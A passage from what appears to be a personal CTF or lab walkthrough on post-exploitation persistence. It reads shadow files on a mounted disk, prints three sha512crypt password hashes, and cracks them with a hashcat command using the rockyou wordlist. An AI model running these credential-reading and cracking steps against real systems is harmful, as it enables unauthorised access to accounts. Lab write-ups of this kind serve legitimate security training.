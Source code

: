 
Now we have to maintain a foothold and to do that we have various option like adding a user or gaining a ssh and can login directly.

```
cat /etc/shadow 
```
![[Pasted image 20240225121145.png]]

So i was looking at the wrong place as you can see that we don't any hashes so i decided to go back and find my mistake.

```
cat /mnt/etc/shadow
```
![[Pasted image 20240225121717.png]]

```
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::

ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::

linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

So now we have the hashes and can crack them in the offline mode.

Now we have to identify the hash type and for that this site will help us
https://hashcat.net/wiki/doku.php?id=example_hashes

And we can see a pattern from the above hash `$6$`
![[Pasted image 20240225122707.png]]
So it means we have to use mode 1800 to crack this hash which us sha512crypt and the good part is that will use google colab gpu to crack the hash.


This is the github link for that https://github.com/someshkar/colabcat

We have to run this command and my account got blocked as GPU was running from last 1-2 hours.

So i am running that in my own Pc
```
.\hashcat.exe -m 1800 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20240225151524.png]]

